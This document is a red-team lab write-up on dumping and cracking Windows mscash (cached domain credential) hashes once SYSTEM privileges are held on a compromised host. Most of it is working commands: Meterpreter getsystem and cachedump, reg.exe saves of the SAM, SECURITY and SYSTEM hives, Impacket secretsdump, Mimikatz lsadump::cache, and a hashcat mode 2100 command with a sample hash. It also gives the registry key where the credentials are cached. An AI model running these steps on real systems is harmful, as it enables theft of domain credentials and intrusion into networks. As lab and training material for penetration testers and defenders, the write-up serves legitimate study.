




# Dumping and Cracking mscash - Cached Domain Credentials

This lab focuses on dumping and cracking mscash hashes after SYSTEM level privileges has been obtained on a compromised machine.

`Mscash` is a Microsoft hashing algorithm that is used for storing cached domain credentials locally on a system after a successful logon. It's worth noting that cached credentials do not expire. Domain credentials are cached on a local system so that domain members can logon to the machine even if the DC is down. It's worth noting that mscash hash is not passable - i.e PTH attacks will not work.

## Execution

### Meterpreter

Note that in meterpreter session, hashdump only dumps the local SAM account hashes:


```text
hashdump
```




To dump cached domain credentials in mscash format, use a post exploitation module `cachedump`:


```csharp
getuid
getsystem
use post/windows/gather/cachedump
run
```



### Secretsdump

Impacket's secrestdump tool allows us to dump all the credentials that are stored in registry hives SAM, SECURITY and SYSTEM, so firstly, we need to write those out:


```csharp
reg.exe save hklm\sam c:\temp\sam.save
reg.exe save hklm\security c:\temp\security.save
reg.exe save hklm\system c:\temp\system.save
```




Once the hives are retrieved, they can can be pulled back to kali linux to extract the hashes:


```csharp
secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```



### Mimikatz

```text
lsadump::cache
```


## Cracking mscash / mscache with HashCat

To crack mscache with hashcat, it should be in the following format:

```csharp
$DCC2$10240#username#hash
```

Meterpreter's cachedump module's output cannot be used in hashcat directly, but it's easy to do it.

Below shows the original output format from cachedump and the format accepted by hashcat:

```csharp
echo ; cat hashes.txt ; echo ; cut -d ":" -f 2 hashes.txt
```



Let's try cracking it with hashchat now:


```csharp
hashcat -m2100 '$DCC2$10240#spot#3407de6ff2f044ab21711a394d85f3b8' /usr/share/wordlists/rockyou.txt --force --potfile-disable
```



## Where Are Domain Credentials Cached

This can be seen via regedit \(running with SYSTEM privileges\) in the following key:

```text
HKEY_LOCAL_MACHINE\SECURITY\Cache
```

`NL$1..10` are the cached hashes for 10 previously logged users:



By nulling out the Data fields one could remove the credentials from cache. Once cached credentials are removed, if no DC is present, a user trying to authenticate to the system will see:


## References






